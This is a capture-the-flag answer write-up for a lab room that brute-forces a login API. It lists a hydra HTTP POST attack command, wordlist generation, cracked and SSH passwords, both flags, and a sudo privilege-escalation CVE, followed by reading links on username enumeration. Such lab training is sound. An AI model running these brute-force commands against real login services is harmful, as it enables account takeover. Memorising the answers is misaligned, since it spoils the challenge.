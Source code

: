 
Form the hydra command to attack the login API route
```
hydra -l james -P wordlist.txt 10.10.141.166 http-post-form "/api/user/login:username=james&password=^PASS^:Invalid Username or Password"
```

How many passwords were in your wordlist?
```
./combinator.c colors.txt names.txt > wordlist.txt
cat -n wordlist.txt

180
```

What was the user's password?
```
[80][http-post-form] host: 10.10.141.166   login: james   password: blue7

blue7
```

What's the user's SSH password?
```
dak4ddb37b
```

What's the user flag?
```
thm{56911bd7ba1371a3221478aa5c094d68}
```


#### Escalate

What is the CVE number for the exploit?
```
CVE-2019-18634
```

What is the root flag?
```
thm{af55ada6c2445446eb0606b5a2d3a4d2}
```

#### Comments on Realism and Further Reading

**Further reading**

﻿**Timing attacks on logins**[https://seclists.org/fulldisclosure/2016/Jul/51](https://seclists.org/fulldisclosure/2016/Jul/51)  
[https://www.gnucitizen.org/blog/username-enumeration-vulnerabilities/](https://www.gnucitizen.org/blog/username-enumeration-vulnerabilities/)[](https://www.gnucitizen.org/blog/username-enumeration-vulnerabilities/)  
[https://wiki.owasp.org/index.php/Testing_for_User_Enumeration_and_Guessable_User_Account_(OWASP-AT-002)](https://wiki.owasp.org/index.php/Testing_for_User_Enumeration_and_Guessable_User_Account_(OWASP-AT-002))

**Adobe Password Breach  
**[https://nakedsecurity.sophos.com/2013/11/04/anatomy-of-a-password-disaster-adobes-giant-sized-cryptographic-blunder/](https://nakedsecurity.sophos.com/2013/11/04/anatomy-of-a-password-disaster-adobes-giant-sized-cryptographic-blunder/)
